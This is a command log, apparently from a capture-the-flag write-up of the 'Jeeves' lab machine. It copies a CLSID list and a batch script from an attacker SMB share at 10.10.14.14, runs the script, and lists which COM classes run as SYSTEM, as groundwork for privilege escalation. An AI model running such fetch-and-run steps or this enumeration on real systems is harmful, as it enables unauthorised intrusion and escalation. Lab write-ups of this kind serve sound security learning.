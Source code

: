 ```powershell
C:\users\kohsuke\downloads>copy \\10.10.14.14\kali\CLSID_only.list CLSID_only.list
copy \\10.10.14.14\kali\CLSID_only.list CLSID_only.list
        1 file(s) copied.

C:\users\kohsuke\downloads>copy \\10.10.14.14\kali\test_clsid.bat test_clsid.bat
copy \\10.10.14.14\kali\test_clsid.bat test_clsid.bat
        1 file(s) copied.

C:\users\kohsuke\downloads>.\test_clsid.bat
.\test_clsid.bat
{00021401-0000-0000-C000-000000000046} 10000
{000C101C-0000-0000-C000-000000000046} 10000
{0010890e-8789-413c-adbc-48f5b511b3af} 10000
{00f2b433-44e4-4d88-b2b0-2698a0a91dba} 10000
...
C:\users\kohsuke\downloads>type result.log
type result.log
{0289a7c5-91bf-4547-81ae-fec91a89dec5};JEEVES\kohsuke
{03ca98d6-ff5d-49b8-abc6-03dd84127020};NT AUTHORITY\SYSTEM
{0fb40f0d-1021-4022-8da0-aab0588dfc8b};NT AUTHORITY\LOCAL SERVICE
{1BE1F766-5536-11D1-B726-00C04FB926AF};NT AUTHORITY\LOCAL SERVICE
{1ecca34c-e88a-44e3-8d6a-8921bde9e452};NT AUTHORITY\SYSTEM
{204810b9-73b2-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{2e5e84e9-4049-4244-b728-2d24227157c7};NT AUTHORITY\LOCAL SERVICE
{30766BD2-EA1C-4F28-BF27-0B44E2F68DB7};NT AUTHORITY\SYSTEM
{3c6859ce-230b-48a4-be6c-932c0c202048};NT AUTHORITY\SYSTEM
{42CBFAA7-A4A7-47BB-B422-BD10E9D02700};NT AUTHORITY\SYSTEM
{4661626C-9F41-40A9-B3F5-5580E80CB347};NT AUTHORITY\SYSTEM
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM
{4B6C85F1-A6D9-433A-9789-89EA153626ED};NT AUTHORITY\SYSTEM
{4d233817-b456-4e75-83d2-b17dec544d12};NT AUTHORITY\SYSTEM
{659cdea7-489e-11d9-a9cd-000d56965251};NT AUTHORITY\SYSTEM
{69AD4AEE-51BE-439b-A92C-86AE490E8B30};NT AUTHORITY\SYSTEM
{6CF9B800-50DB-46B5-9218-EACF07F5E414};NT AUTHORITY\SYSTEM
{6d18ad12-bde3-4393-b311-099c346e6df9};NT AUTHORITY\SYSTEM
{6d8ff8d2-730d-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{6d8ff8dc-730d-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{6d8ff8dd-730d-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{6d8ff8df-730d-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{6d8ff8e0-730d-11d4-bf42-00b0d0118b56};JEEVES\kohsuke
{6d8ff8e1-730d-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{6d8ff8e5-730d-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{6d8ff8e7-730d-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{6d8ff8e8-730d-11d4-bf42-00b0d0118b56};JEEVES\kohsuke
{7D096C5F-AC08-4F1F-BEB7-5C22C517CE39};NT AUTHORITY\SYSTEM
{8BC3F05E-D86B-11D0-A075-00C04FB68820};NT AUTHORITY\SYSTEM
{9678f47f-2435-475c-b24a-4606f8161c16};JEEVES\kohsuke
{97061DF1-33AA-4B30-9A92-647546D943F3};NT AUTHORITY\SYSTEM
{98068995-54d2-4136-9bc9-6dbcb0a4683f};JEEVES\kohsuke
{9acf41ed-d457-4cc1-941b-ab02c26e4686};JEEVES\kohsuke
{9E175B68-F52A-11D8-B9A5-505054503030};NT AUTHORITY\SYSTEM
{9E175B6D-F52A-11D8-B9A5-505054503030};NT AUTHORITY\SYSTEM
{A47979D2-C419-11D9-A5B4-001185AD2B89};NT AUTHORITY\LOCAL SERVICE
{A9B5F443-FE02-4C19-859D-E9B5C5A1B6C6};NT AUTHORITY\SYSTEM
{B31118B2-1F49-48E5-B6F5-BC21CAEC56FB};NT AUTHORITY\SYSTEM
{B52D54BB-4818-4EB9-AA80-F9EACD371DF8};NT AUTHORITY\SYSTEM
{bb6df56b-cace-11dc-9992-0019b93a3a84};NT AUTHORITY\SYSTEM
{C49E32C6-BC8B-11d2-85D4-00105A1F8304};NT AUTHORITY\SYSTEM
{CBC04AF1-25C7-4A4D-BB78-28284403510F};NT AUTHORITY\SYSTEM
{E48EDA45-43C6-48e0-9323-A7B2067D9CD5};NT AUTHORITY\SYSTEM
{e60687f7-01a1-40aa-86ac-db1cbf673334};NT AUTHORITY\SYSTEM
{E63DE750-3BD7-4BE5-9C84-6B4281988C44};NT AUTHORITY\SYSTEM
{F087771F-D74F-4C1A-BB8A-E16ACA9124EA};NT AUTHORITY\SYSTEM
```